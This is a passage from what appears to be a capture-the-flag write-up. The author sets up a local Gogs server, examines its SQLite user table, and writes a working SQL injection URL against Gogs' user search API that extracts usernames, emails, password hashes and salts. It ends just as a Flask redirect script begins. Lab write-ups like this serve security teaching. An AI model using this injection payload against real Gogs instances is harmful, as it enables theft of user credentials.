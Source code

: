 Visiting `127.0.0.1:3000` presents the install page:

![image-20230106171650744](https://0xdfimages.gitlab.io/img/image-20230106171650744.png)

I’ll leave the DB as it is (matching what Health is using, SQLite), and make
an admin user. Once I do that, It says it works, and I get the login:

![image-20230106171842889](https://0xdfimages.gitlab.io/img/image-20230106171842889.png)

Pasting my query into Firefox, it works:

![image-20230106172224759](https://0xdfimages.gitlab.io/img/image-20230106172224759.png)

#### Enumerate Users Table

It says it made the DB in `data/gogs.db`. I’ll check that out:

    
    
    oxdf@hacky$ sqlite3 data/gogs.db 
    SQLite version 3.31.1 2020-01-27 19:55:54
    Enter ".help" for usage hints.
    sqlite> .schema user
    CREATE TABLE `user` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `lower_name` TEXT NOT NULL, `name` TEXT NOT NULL, `full_name` TEXT NULL, `email` TEXT NOT NULL, `passwd` TEXT NOT NULL, `login_type` INTEGER NULL, `login_source` INTEGER NOT NULL DEFAULT 0, `login_name` TEXT NULL, `type` INTEGER NULL, `num_followers` INTEGER NULL, `num_followings` INTEGER NULL, `num_stars` INTEGER NULL, `num_repos` INTEGER NULL, `avatar` TEXT NOT NULL, `avatar_email` TEXT NOT NULL, `location` TEXT NULL, `website` TEXT NULL, `is_active` INTEGER NULL, `is_admin` INTEGER NULL, `rands` TEXT NULL, `salt` TEXT NULL, `created` NUMERIC NULL, `updated` NUMERIC NULL, `description` TEXT NULL, `num_teams` INTEGER NULL, `num_members` INTEGER NULL);
    CREATE UNIQUE INDEX `UQE_user_name` ON `user` (`name`);
    CREATE UNIQUE INDEX `UQE_user_email` ON `user` (`email`);
    CREATE UNIQUE INDEX `UQE_user_lower_name` ON `user` (`lower_name`);
    

Those are the 27 columns I noticed in the exploit. `name` is the third column.

I want the name, email, password, and salt for each user. I’ll update the
query, using `||` to concatenate in SQLite:

    
    
    http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,name||':'||email||':'||passwd||':'||salt,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/from/**/user--/**/-
    

This works locally:

![image-20230106172659400](https://0xdfimages.gitlab.io/img/image-20230106172659400.png)

#### Get Hash

I’ll update the script to get this same URL on Health:

    
    
    from flask import Flask, redirect, request
    